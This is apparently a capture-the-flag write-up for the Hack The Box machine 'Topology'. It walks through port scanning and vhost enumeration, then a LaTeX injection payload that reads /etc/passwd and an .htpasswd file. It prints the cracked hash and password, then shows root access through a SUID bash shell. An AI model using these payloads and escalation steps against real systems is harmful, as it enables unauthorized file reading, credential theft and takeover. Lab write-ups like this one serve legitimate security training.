 # Topology

<p align="center"><img src="assets/Topology.png" width="400"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Topology
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>masscan</summary>

```
sudo masscan -p1-65535,U:1-65535 --rate=1000 -e tun0 10.10.11.217

Discovered open port 80/tcp on 10.10.11.217
Discovered open port 22/tcp on 10.10.11.217
```
</details>

<details>
<summary>nmap</summary>

```
map -sC -sV -v -p22,80 10.10.11.217

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

<details>
<summary>vhost</summary>

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://topology.htb/

Found: dev.topology.htb Status: 401 [Size: 463]
Found: stats.topology.htb Status: 200 [Size: 108]
```
</details>

## Foothold

### Web → `vdaisley` 🚩

#### Searching for Vulnerabilities

- `http://latex.topology.htb/equation.php` allows you to generate formulas with LaTeX
- `http://latex.topology.htb/header.tex` shows that the `listings` package is included
- LFI is possible e.g. with input `$\lstinputlisting{/etc/passwd}$`
- `/etc/passwd` shows that user `vdaisley` has a home directory and access to a shell
- vhost enumeration with has shown that `dev.topology.htb` returns the status code 401 (Unauthorized), so there is probably a `.htaccess` and `.htpasswd` file somewhere

#### Exploitation

1. With `$\lstinputlisting{/var/www/dev/.htpasswd}$` the contents of `.htpasswd` can be displayed.
2. Copy hash, save to file, crack with hashcat:
    - password hash: `vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`
    - cracked password: `calculus20`
3. An SSH connection for `vdaisley` can be established with these credentials. 🚩  

## Privilege Escalation

### `vdaisley` → `root` 🏁

#### Searching for Vulnerabilities

- `file /usr/bin/bash` shows that the SUID bit for `root` is set

#### Exploitation

1. a root shell can be created with `/usr/bin/bash -p` 🏁
